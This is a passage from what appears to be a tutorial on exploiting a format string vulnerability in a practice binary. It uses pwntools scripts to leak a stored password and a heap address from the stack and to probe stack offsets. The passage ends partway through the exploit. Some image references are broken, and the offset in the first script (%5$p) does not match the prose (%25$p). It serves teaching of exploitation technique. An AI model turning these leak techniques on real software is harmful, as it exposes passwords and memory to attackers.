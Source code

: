 In the image it's possible to see that we can leak the password from the stack in the `10th` position:

<figure><img src="../../images/image (1234).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../images/image (1233).png" alt="" width="338"><figcaption></figcaption></figure>

### Read data

Running the same exploit but with `%p` instead of `%s` it's possible to leak a heap address from the stack at `%25$p`. Moreover, comparing the leaked address (`0xaaaab7030894`) with the position of the password in memory in that process we can obtain the addresses difference:

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

Now it's time to find how to control 1 address in the stack to access it from the second format string vulnerability:

```python
from pwn import *

def leak_heap(p):
    p.sendlineafter(b"first password:", b"%5$p")
    p.recvline()
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    return int(response, 16)

for i in range(30):
    p = process("./fs-read")

    heap_leak_addr = leak_heap(p)
    print(f"Leaked heap: {hex(heap_leak_addr)}")

    password_addr = heap_leak_addr - 0x126a

    print(f"Try: {i}")
    payload = f"%{i}$p|||".encode()
    payload += b"AAAAAAAA"

    p.sendline(payload)
    output = p.clean()
    print(output.decode("utf-8"))
    p.close()
```

And it's possible to see that in the **try 14** with the used passing we can control an address:

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

### Exploit

```python
from pwn import *

p = process("./fs-read")

def leak_heap(p):
    # At offset 25 there is a heap leak
    p.sendlineafter(b"first password:", b"%25$p")
    p.recvline()
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    return int(response, 16)

heap_leak_addr = leak_heap(p)
print(f"Leaked heap: {hex(heap_leak_addr)}")
```